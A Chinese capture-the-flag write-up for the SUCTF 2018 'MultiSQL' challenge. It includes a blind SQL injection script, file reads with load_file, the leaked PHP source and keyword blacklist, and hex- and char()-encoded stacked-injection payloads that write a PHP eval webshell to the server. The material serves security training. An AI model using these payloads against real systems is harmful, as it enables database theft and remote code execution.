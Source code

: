 # \[SUCTF 2018]MultiSQL

## \[SUCTF 2018]MultiSQL

## 考点

* SQL盲注
* `mysqli_store_result` 导致堆叠注入
* 预编译写shell
* 二次注入写shell

## wp

先随便注册登录一下，能用的功能只有用户信息查看和头像上传。头像上传是写死的文件，但是说明`favicon/` 这个目录是可写

在用户信息那里是很明显的注入点

![](../.gitbook/assets/Kgz07ktXFmzxLJ5XWUAuNO1zRD8xz0Z3bhJ\_a6ccTkY.png)

URL为http://0a4b5eec-1e86-4b36-9ed6-e19c73dae811.node4.buuoj.cn:81/user/user.php?id=2，并且id=1是admin的账号，直接尝试异或`id=0^1`，发现返回成功，尝试`0^(ascii(substr((select(database())),1,1))>0)`，发现失败，什么也不返回，应该是ban了字符串，再尝试`0^(ascii(substr((database()),1,1))>0)`，还是失败，再进行函数替换，用`mid`替换`substr`，`0^(ascii(mid((database()),1,1))>0)` ，这次成功了。

![](../.gitbook/assets/AKU4DkfasuJuWt800NCj14MRKO7D6-rGkOgXOQsUU0o.png)

可以用脚本试一下，数据库名字是ctf，但是过滤了select，基本上无缘常规注入了

```python
import requests
import time
url = 'http://59d00aaf-0e45-4acc-af66-16b0cf3321b4.node4.buuoj.cn:81/user/user.php?id=' 

cookies = {
    'UM_distinctid': '17f6418dc82797-043fc01b50c257-4c3e227d-384000-17f6418dc83b77',
    'PHPSESSID': 'bo7n48i5v07nevnm1qa3hajup3',
}

def get_database():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            time.sleep(0.2)
            payload = f"0^(ascii(mid((database()),{i},1))>{mid})"
            url_t = url + payload
            r = requests.get(url=url_t,cookies=cookies)
            if len(r.text)==1959:
                high = mid
            if len(r.text)==1975:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
get_database()
```

又读取了一下版本，是10.0.34-MariaDB，存在布尔盲注，再去试试其他的东西，比如`hex`配合`load_file` 进行文件读取，测试一下

```
0^hex(1)
0^char(1)
这两个都没有返回空白
```

那可以试试`hex(load_file(0x2f7661722f7777772f68746d6c2f696e6465782e706870))`，相当于`hex(load_file('/var/www/html/index.php'))`

用盲注脚本跑一下，

```python
payload = f"0^(ascii(mid((hex(load_file(0x2f7661722f7777772f68746d6c2f696e6465782e706870))),{i},1))>{mid})"
```

然后读取`bwvs_config/sys_config.php`

```php
<?php 
require_once('bwvs_config/sys_config.php');
require_once('header.php');
?>
	<html>
******
	</html>
```

`/var/www/html/bwvs_config/sys_config.php`

```php
<?php
ini_set('display_errors',0);
error_reporting(E_ALL | E_STRICT);
header("Content-type: text/html; charset=utf-8");
define("Host", "127.0.0.1");
define("User","suctf");
define("Password","suctf");
define("DateName","ctf");
$connect = mysqli_connect(Host,User,Password,DateName);
if(!$connect)
{
	echo mysqli_error($connect);
	die('mysql connect error !');
}else{
	$sql = "set names utf8";
	mysqli_query($connect,$sql);
}
session_start();
//根目录
$basedir = ''; 
//载入函数库
include_once('waf.php');
?>
```

`/var/www/html/bwvs_config/waf.php` 可以看到ban了很多字符串，基本锁死了注入。但是预编译的注入没有过滤`set`、`prepare`和`execute`，可以往这个方向考虑

```php
<?php
	
	function waf($str){
		$black_str = "/(and|or|union|sleep|select|substr|order|left|right|order|by|where|rand|exp|updatexml|insert|update|dorp|delete|[|]|[&])/i";
		$str = preg_replace($black_str, "@@",$str);
		return addslashes($str);
	}
	

?>
```

然后读取`/var/www/html/user/user.php`

```php
<?php
include_once('../bwvs_config/sys_config.php');

if (isset($_SESSION['user_name'])) {
	include_once('../header.php');
	if (!isset($SESSION['user_id'])) {
		$sql = "SELECT * FROM dwvs_user_message WHERE DWVS_user_name ="."'{$_SESSION['user_name']}'";
		$data = mysqli_query($connect,$sql) or die('Mysql Error!!');
		$result = mysqli_fetch_array($data);
		$_SESSION['user_id'] = $result['DWVS_user_id'];
	}

	$html_avatar = htmlspecialchars($_SESSION['user_favicon']);
	
	
	if(isset($_GET['id'])){
		$id=waf($_GET['id']);
		$sql = "SELECT * FROM dwvs_user_message WHERE DWVS_user_id =".$id;
		$data = mysqli_multi_query($connect,$sql) or die();
		
		$result = mysqli_store_result($connect);
		$row = mysqli_fetch_row($result);
		echo '<h1>user_id:'.$row[0]."</h1><br><h2>user_name:".$row[1]."</h2><br><h3>注册时间：".$row[4]."</h3>";
		mysqli_free_result($result);
		die();
	}
	mysqli_close($connect);
?>
<div class="row">
	<div style="float:left;">
		<img src="<?php echo $html_avatar?>" width="100" height="100" class="img-thumbnail" >
		<div><?php echo "你好，".$_SESSION['user_name']?>
		</div>	
	</div>
	
	<div style="float:right;padding-right:900px">
		<div><a href="./user.php?id=<?php echo $_SESSION['user_id'];?>"><button type="button" class="btn btn-primary">用户信息</button></a></div>
		<br />
		<div><a href="edit.php"><button type="button" class="btn btn-primary">编辑头像</button></a></div>
		<br/>
		<div><a href="logout.php"><button type="button" class="btn btn-primary">退出</button></a></div><br /><br /><br /><br />
	</div>
</div>
<?php 
	require_once('../Trim.php');
}
else {
	not_find($_SERVER['PHP_SELF']);
}
?>
```

用了`mysqli_store_result`，会导致堆叠注入，结合前面的预编译可以写shell

```sql
1;set @sql=0x53454c45435420273c3f70687020406576616c28245f504f53545b615d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f7368656c6c2e70687027;prepare x from @sql;execute x;
```

执行的sql语句

```sql
SELECT '<?php @eval($_POST[a]);?>' into outfile '/var/www/html/favicon/shell.php'
```

也可以用char函数写shell

```sql
1;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare payload from @sql;execute payload;
```

还有一种解法是利用二次注入写shell

## 小结

1. 遇到SQL过滤时要试试关键字字典
2. 过滤多的时候可能是堆叠注入或者用load\_file
3. MySQL中转换字符串可以用hex也可以用char
4. 注入时要判断不同结果对应的页面
